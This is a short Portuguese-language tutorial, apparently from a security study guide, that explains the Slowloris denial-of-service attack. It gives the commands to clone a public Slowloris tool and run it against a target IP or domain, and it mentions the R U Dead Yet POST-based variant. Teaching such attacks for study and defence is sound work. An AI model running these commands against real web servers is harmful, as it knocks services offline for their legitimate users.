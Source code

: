 # Slow Loris

![](https://www.cloudflare.com/img/learning/ddos/ddos-slowloris-attack/slowloris-attack-diagram.png)

A ideia por trás do Slow Loris é abrir várias conexões TCP com um servidor web e, em cada uma delas, enviar de tempos em tempos uma parte de uma requisição GET. O servidor acha que as conexões estão lentas, mas que são legítimas, então ele as mantêm, impedindo outras conexões de usuários comuns.

Para esse ataque, vamos usar [esse código maravilindo](https://github.com/gkbrk/slowloris). Primeiro clonamos o repositório:

```text
$ git clone https://github.com/gkbrk/slowloris
```

Depois entramos no repositório clonado:

```text
$ cd slowloris
```

**Obs:** É possível que você precise especificar um caminho diferente ao `cd`, dependendo da pasta para onde o repositório foi clonado e da pasta onde você está.

Finalmente, basta usar o python para executar o código, passando o IP do alvo \(nesse caso, nosso alvo é `10.10.10.10`\):

```text
$ python3 slowloris.py 10.10.10.10
```

Ou apenas o domínio, caso exista:

```text
$ python3 slowloris.py example.com
```

**Obs:** Existe uma outra versão do Slow Loris que se chama R U Dead Yet, que envia requisições POST ao invés de GET.

